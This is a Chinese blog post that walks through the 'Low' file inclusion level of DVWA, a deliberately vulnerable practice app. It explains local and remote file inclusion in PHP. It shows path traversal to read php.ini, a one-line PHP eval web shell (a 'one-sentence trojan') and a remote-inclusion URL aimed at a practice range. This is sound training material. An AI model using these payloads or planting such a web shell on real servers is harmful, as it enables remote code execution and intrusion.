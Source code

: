 ```yaml
---
layout:     post
title:      dvwa之File Inclusion
subtitle:   dvwa的文件包含
date:       2020-11-17
author:     YY——阳阳
header-img: img/post/1.jpg
catalog: true
tags:
    - dvwa
    - 文件包含
---
```


## 前言
File Inclusion，意思是文件包含（漏洞），是一种代码处理方式，当一个代码文件想要引用另外一个代码文件，就要用到包含。当服务器开启allow_url_include选项时，就可以通过php的某些特性函数（include()，require()和include_once()，require_once()）利用url去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。文件包含漏洞分为本地文件包含漏洞与远程文件包含漏洞，远程文件包含漏洞是因为开启了php配置中的allow_url_fopen选项（选项开启之后，服务器允许包含一个远程的文件）。
## Low
#### 源码
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>
```
> 服务器对page参数没有做任何过滤检查


![](http://image.3001.net/images/20161106/14784220488447.png)
> 服务器期望用户的操作是点击上面的三个链接，服务器会包含相应的文件，并将结果返回。需要特别说明的是，服务器包含文件时，不管文件后缀是否是php，都会尝试当做php文件执行，如果文件内容为php，则会正常执行并返回结果；如果不是，则会原封不动地打印文件内容，所以文件包含漏洞常常会导致任意文件读取与任意命令执行。

#### 漏洞利用

###### 0x01 分析
尝试修改参数为test.php看一下，发现什么都没有

![](https://img-blog.csdnimg.cn/20201130205317368.png)

说明这个参数可以利用，盲猜这三个php文件是在一个目录里边的，应该是这样
![](https://img-blog.csdnimg.cn/20181221141159427.png)

因此我们想要包含跟目录里边的php.ini文件，就要跳转到上两级目录
> 读取www\DVWA\php.ini
> include(“www\DVWA\php.ini”)
> include("www\DVWA\vulnerabilities\fi\../../php.ini")
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020113021052722.png)
发现allow_url_include和allow_url_fopen是开着的，因此进行远程文件执行

###### 0x02 远程文件执行
在自己的服务器上放置一个phpinfo.txt文件或者是一句话木马都可以，然后进行远程包含，只要后缀改为php就可以执行，但是如果是非php文件，只要文件里为php格式的代码就可以执行。我们要清楚远程的执行不是在攻击者的web服务器上执行，而是在受害者web服务器上执行命令，所以phpinfo.txt才是正经。
```php
//一句话木马
<?php @eval($_POST['cmd']); ?>
//phpinfo
<?
phpinfo();
?>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201130213630878.png)

> PS：下面这是在谜团靶场执行靶场的phpinfo()![gtgdh.png](https://s3.jpg.cm/2021/02/18/gtgdh.png)
```php
http://340d990415234f43a620e1071184f98d.app.mituan.zone/vulnerabilities/fi/?page=http://340d990415234f43a620e1071184f98d.app.mituan.zone/phpinfo.php
```